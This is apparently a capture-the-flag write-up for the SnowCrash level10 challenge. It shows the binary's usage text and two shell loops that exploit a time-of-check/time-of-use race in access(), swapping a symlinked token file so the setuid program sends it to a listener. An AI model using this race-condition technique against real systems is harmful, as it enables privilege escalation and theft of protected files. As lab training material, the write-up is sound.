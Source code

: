 ## Walkthrough :

+ i started by executing **./level10**, this prints the usage 
```
level10@SnowCrash:~$ ./level10
./level10 file host
	sends file to host if you have access to it
```
```
%s file host
	sends file to host if you have access to it
Connecting to %s:6969 ..
Unable to connect to host %s
``` 

```
#!/bin/sh

while true
do
	mv token tmp
	mv file token
	mv tmp file
done
```

```
#!/bin/sh

while true
do
	./level10 file 0.0.0.0
done
```


## Ressources :
[race condition](https://web.ecs.syr.edu/\~wedu/Teaching/IntrCompSec/LectureNotes_New/Race_Condition.pdf)  
[access() Security Hole](https://stackoverflow.com/questions/7925177/access-security-hole)